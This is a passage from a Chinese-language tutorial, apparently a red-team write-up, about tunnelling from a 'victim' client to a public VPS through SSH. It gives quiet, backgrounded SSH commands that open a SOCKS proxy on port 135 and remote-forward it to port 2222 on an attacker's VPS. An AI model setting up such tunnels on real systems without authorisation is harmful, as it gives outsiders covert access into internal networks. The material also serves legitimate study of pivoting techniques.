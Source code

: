 重启 ssh 服务

```plain
systemctl restart sshd.service
```

[![](assets/1708095858-42480ea0c98d8ec90aaf381c7ae3f1b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203601-e57869f2-e8e5-1.png)

2、客户端（受害者），通过 ssh 开启本地代理 135 端口（端口任意），然后输入本地 ssh 密码，进行监听

```plain
ssh -qTfnN -D 0.0.0.0:135 funsiooo@localhost
```

[![](assets/1708095858-048a2c2af4069f64d451e4611cc83515.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203609-ea14db1c-e8e5-1.png)

[![](assets/1708095858-2ba1986d63b30319c8245aab968428bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203619-f042c0e4-e8e5-1.png)

利用 ssh 远程转发到公网的服务端（VPS）的 2222 端口，此时输入的密码是服务端（VPS）的 ssh 密码

```plain
ssh -qTfnN -R 0.0.0.0:2222:0.0.0.0:135 root@公网 vps
```

[![](assets/1708095858-8ba3e1d78c4cef132cff88efb982651c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203627-f52ac818-e8e5-1.png)
